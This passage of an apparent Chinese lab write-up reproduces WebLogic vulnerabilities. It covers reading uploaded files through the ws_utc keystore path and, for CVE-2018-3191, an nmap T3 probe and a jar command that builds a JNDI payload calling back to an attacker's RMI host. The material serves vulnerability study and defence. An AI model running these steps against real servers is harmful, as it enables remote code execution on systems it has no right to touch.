 然后访问`/ws_utc/css/config/keystore/[id]_[filename]`即可访问到文件

![](weblogic漏洞练习\14.png)



这个漏洞有个限制条件就是需要在`开发模式`下进行，否生产模式时需要进行认证登录



# CVE-2018-3191

更新于2018/10/31

听说最近又出了一个危害比较大的漏洞，遂复现了一下。和之前一样，需要weblogic开启T3协议

```
nmap -n -v -Pn -sV 192.168.85.144 --script=weblogic-t3-info.nse
```

![](2018SECCON-ghostkingdom\9.jpg)

需要一些准备的工具，具体可看这里https://github.com/jas502n/CVE-2018-3191

需要先生成一个payload

```
java -jar weblogic-spring-jndi-10.3.6.0.jar rmi://攻击机ip:端口/exp > payload
```

```
java -jar weblogic-spring-jndi-10.3.6.0.jar rmi://172.20.0.1:8888/exp > payload
```

![](weblogic漏洞练习\16.png)
